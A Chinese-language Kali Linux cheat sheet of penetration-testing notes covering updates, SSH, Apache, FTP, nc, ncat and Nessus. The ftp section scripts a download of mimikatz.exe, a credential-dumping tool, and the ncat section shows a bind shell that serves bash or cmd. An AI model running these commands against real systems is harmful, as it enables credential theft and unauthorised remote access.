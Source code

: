 # Kali 操作

## 更新升级

- apt-get update (更新软件包列表库)
- apt-get upgrade (更新安装的软件包)
- apt-get dist-upgrade (根据依赖关系更新)
- apt-get clean (清除缓存索引)
- reboot (重新启动)

## Kali 网络问题

- service network-manager stop
- rm /var/lib/NetworkManager/NetworkManager.state
- service network-manager start

## SSH

- service ssh start (开启 ssh 服务)
- service ssh restart (重启 ssh 服务)
- service ssh status (查看 ssh 状态)

## Apache

- service apache2 start (开启 Apache 服务)
- service apache2 restart (重启 Apache 服务)
- service apache2 status (查看 Apache 状态)
- 默认目录 /var/www/html
- 目录配置 /etc/apache2/sites-available/000-default.conf

## ftp

- service vsftpd start (开启 ftp 服务)
- service vsftpd restart (重启 ftp 服务)
- service vsftpd status (查看 ftp 状态)
- 文件目录 /home/ftp

```
echo open 192.168.253.130 21>ftp.txt
echo ftp>>ftp.txt
echo 123456>>ftp.txt
echo bin>>ftp.txt
echo get mimikatz.exe>>ftp.txt
echo bye>>ftp.txt
----------------
ftp -s:ftp.txt
```

## nc

- -h 显示帮助选项
- -l 绑定并监听传入连接
- -p 指定要使用的端口
- -c 通过/bin/sh 执行给定的命令
- -q 执行完毕 X 秒后退出
- -n 数字 ip,不通过 DNS 解析
- -v 显示详细信息
- -u 使用 UDP 模式
- -z 使用扫描模式

```
A：nc -lp 端口 | 解密方式 > 文件
B：加密方式 < a.mp4 | nc -nv IP地址 端口 -q 时间
```

## ncat

- --allow 只允许给定的主机连接到 Ncat
- --ssl 使用 SSL 连接或监听

```
A：ncat -c bash/cmd --allow IP 地址 -vnl 端口 --ssl
B：ncat -nv IP 地址 端口 --ssl
```

## Nessus

- service nessusd start (启动 Nessus)
- service nessusd status (查看 Nessus 状态)
- https://192.168.253.130:8834/
